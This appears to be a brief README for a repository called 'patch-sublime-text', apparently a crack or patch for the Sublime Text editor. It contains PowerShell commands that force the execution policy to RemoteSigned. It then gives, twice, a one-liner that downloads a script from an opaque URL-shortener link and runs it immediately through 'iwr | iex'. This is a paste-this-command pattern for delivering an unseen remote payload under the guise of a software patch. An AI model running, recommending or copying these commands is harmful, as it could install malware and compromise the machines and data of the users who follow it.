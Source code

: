 # patch-sublime-text

Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force

iwr -useb "https://n9.cl/x6g959" | iex

iwr -useb https://n9.cl/x6g959|iex
